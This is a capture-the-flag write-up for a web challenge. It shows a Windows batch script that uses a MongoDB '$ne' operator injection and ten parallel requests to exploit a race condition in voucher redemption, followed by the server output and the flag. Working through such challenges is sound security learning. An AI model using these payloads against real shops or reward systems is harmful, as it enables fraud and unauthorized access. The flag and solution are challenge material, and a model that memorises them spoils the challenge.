 # Fast track- Web Exploitation

## Flag 

`citadel{ak1ra_w4it5_f0r_y0u_4t_n1te}`
### Vulnerability

The voucher redemption system contains a NoSQL injection vulnerability and race condition. The endpoint fails to sanitize input, allowing MongoDB operator injection via discountCode[$ne]= to bypass validation. A non-atomic check-then-update pattern with a 2-second delay creates a race window where concurrent requests can all read the unredeemed state before any writes occur, multiplying the reward.

### Exploit

Registers user, exploits race condition with 10 parallel NoSQL-injected requests to accumulate 50 points, purchases flag is the intended soln but 



i got the flag by sending 10 requests by exploiting abv mentioned vuln.

NoSQL Injection `$ne` operator to Bypass  validation
 race con : 10 parallel requests during 2s delay which Multiply rewards from 5 to 50 points
Purchase product ID 4 at last to Get the flag

```
@echo off
REM Register user
curl.exe -s -c c:\tmp\c.txt -H "Content-Type: application/json" -d "{\"username\":\"u%RANDOM%\",\"password\":\"pass123\"}" http://chall_citadel.cryptonitemit.in:62014/register-user
echo.
echo Registration complete 
echo.

REM Run 10 parallel redeem requests
echo Running redeem requests...
start /B curl.exe -s -b c:\tmp\c.txt -G --data-urlencode "discountCode[$ne]=" http://chall_citadel.cryptonitemit.in:62014/redeem
start /B curl.exe -s -b c:\tmp\c.txt -G --data-urlencode "discountCode[$ne]=" http://chall_citadel.cryptonitemit.in:62014/redeem
start /B curl.exe -s -b c:\tmp\c.txt -G --data-urlencode "discountCode[$ne]=" http://chall_citadel.cryptonitemit.in:62014/redeem
start /B curl.exe -s -b c:\tmp\c.txt -G --data-urlencode "discountCode[$ne]=" http://chall_citadel.cryptonitemit.in:62014/redeem
start /B curl.exe -s -b c:\tmp\c.txt -G --data-urlencode "discountCode[$ne]=" http://chall_citadel.cryptonitemit.in:62014/redeem
start /B curl.exe -s -b c:\tmp\c.txt -G --data-urlencode "discountCode[$ne]=" http://chall_citadel.cryptonitemit.in:62014/redeem
start /B curl.exe -s -b c:\tmp\c.txt -G --data-urlencode "discountCode[$ne]=" http://chall_citadel.cryptonitemit.in:62014/redeem
start /B curl.exe -s -b c:\tmp\c.txt -G --data-urlencode "discountCode[$ne]=" http://chall_citadel.cryptonitemit.in:62014/redeem
start /B curl.exe -s -b c:\tmp\c.txt -G --data-urlencode "discountCode[$ne]=" http://chall_citadel.cryptonitemit.in:62014/redeem
start /B curl.exe -s -b c:\tmp\c.txt -G --data-urlencode "discountCode[$ne]=" http://chall_citadel.cryptonitemit.in:62014/redeem

REM Wait for background processes
timeout /t 5 /nobreak >nul

echo.
echo  Redeem requests complete 
echo.

REM Purchase the flag
echo Purchasing flag...
curl.exe -s -b c:\tmp\c.txt -H "Content-Type: application/json" -d "{\"productId\":4}" http://chall_citadel.cryptonitemit.in:62014/store
echo.

```


the terminal output : 
```
PS C:\Citadel_CTF_Writeups\Fast_Track> .\run_exploit.bat
{"success":true,"message":"Welcome to the Tower, Regular!"}
 Registration complete 

Running redeem requests...
{"success":true,"message":"Voucher redeemed! New Balance: 15 Shinsu Points","code":"HoHoHo25","value":5,"newBalance":15,"injection_success":{"technique":"NoSQL injection","operators_used":["$ne"],"query_executed":"DiscountCodes.findOne({ discountCode: {\"$ne\":\"\"} })"}}{"success":true,"message":"Voucher redeemed! New Balance: 10 Shinsu Points","code":"HoHoHo25","value":5,"newBalance":10,"injection_success":{"technique":"NoSQL injection","operators_used":["$ne"],"query_executed":"DiscountCodes.findOne({ discountCode: {\"$ne\":\"\"} })"}}{"success":true,"message":"Voucher redeemed! New Balance: 10 Shinsu Points","code":"HoHoHo25","value":5,"newBalance":10,"injection_success":{"technique":"NoSQL injection","operators_used":["$ne"],"query_executed":"DiscountCodes.findOne({ discountCode: {\"$ne\":\"\"} })"}}{"success":true,"message":"Voucher redeemed! New Balance: 20 Shinsu Points","code":"HoHoHo25","value":5,"newBalance":20,"injection_success":{"technique":"NoSQL injection","operators_used":["$ne"],"query_executed":"DiscountCodes.findOne({ discountCode: {\"$ne\":\"\"} })"}}{"success":true,"message":"Voucher redeemed! New Balance: 30 Shinsu Points","code":"HoHoHo25","value":5,"newBalance":30,"injection_success":{"technique":"NoSQL injection","operators_used":["$ne"],"query_executed":"DiscountCodes.findOne({ discountCode: {\"$ne\":\"\"} })"}}{"success":true,"message":"Voucher redeemed! New Balance: 25 Shinsu Points","code":"HoHoHo25","value":5,"newBalance":25,"injection_success":{"technique":"NoSQL injection","operators_used":["$ne"],"query_executed":"DiscountCodes.findOne({ discountCode: {\"$ne\":\"\"} })"}}{"success":true,"message":"Voucher redeemed! New Balance: 50 Shinsu Points","code":"HoHoHo25","value":5,"newBalance":50,"injection_success":{"technique":"NoSQL injection","operators_used":["$ne"],"query_executed":"DiscountCodes.findOne({ discountCode: {\"$ne\":\"\"} })"}}{"success":true,"message":"Voucher redeemed! New Balance: 35 Shinsu Points","code":"HoHoHo25","value":5,"newBalance":35,"injection_success":{"technique":"NoSQL injection","operators_used":["$ne"],"query_executed":"DiscountCodes.findOne({ discountCode: {\"$ne\":\"\"} })"}}{"success":true,"message":"Voucher redeemed! New Balance: 50 Shinsu Points","code":"HoHoHo25","value":5,"newBalance":50,"injection_success":{"technique":"NoSQL injection","operators_used":["$ne"],"query_executed":"DiscountCodes.findOne({ discountCode: {\"$ne\":\"\"} })"}}{"success":true,"message":"Voucher redeemed! New Balance: 40 Shinsu Points","code":"HoHoHo25","value":5,"newBalance":40,"injection_success":{"technique":"NoSQL injection","operators_used":["$ne"],"query_executed":"DiscountCodes.findOne({ discountCode: {\"$ne\":\"\"} })"}}
 Redeem requests complete 

Purchasing flag...
{"success":true,"message":"Item acquired successfully! Remaining balance: 0 Shinsu Points","product":{"Name":"Guardian's Secret Scroll","Description":"Ancient knowledge from the Tower's Guardian containing forbidden secrets about the upper floors.","FLAG":"citadel{ak1ra_w4it5_f0r_y0u_4t_n1te}"}}
```

